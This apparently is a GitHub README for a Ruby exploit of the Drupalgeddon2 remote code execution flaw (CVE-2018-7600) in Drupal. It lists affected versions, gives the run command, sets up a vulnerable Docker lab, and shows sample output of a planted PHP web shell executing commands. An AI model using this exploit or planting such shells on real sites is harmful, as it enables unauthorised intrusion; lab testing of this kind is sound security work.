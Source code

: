 # CVE-2018-7600 | Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' RCE

Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations.


**Vulnerable versions:**
- < 7.58
- 8.x < 8.3.9
- 8.4.x < 8.4.6
- 8.5.x < 8.5.1

# Usage

**Exploit**
```
ruby cve-2018-7600_exploit.rb <TARGET>
```

## PoC
To test it, you can use a vulnerable docker image

```
docker pull drupal:8.5.0-apache
docker run -i -t --name drupalgeddon2 drupal:8.5.0-apache 
docker inspect drupalgeddon2 | grep IPAddress
```
Note: to make drupal installation easier, user SQLite database



```
-> ruby cve-2018-7600_exploit.rb 172.17.0.2 
[*] --==[::#Drupalggedon2::]==--

[+] Target seems to be exploitable! w00hooOO!
[+] PHP shell: http://172.17.0.2/s.php?c=CMD 
[+] Type your commands (exit to exit) and press Enter!
Drupalgeddon2-> whoami
www-data
Drupalgeddon2-> pwd
/var/www/html
Drupalgeddon2-> 
```


# References
- http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7600
- https://research.checkpoint.com/uncovering-drupalgeddon-2/
- https://github.com/dreadlocked/Drupalgeddon2


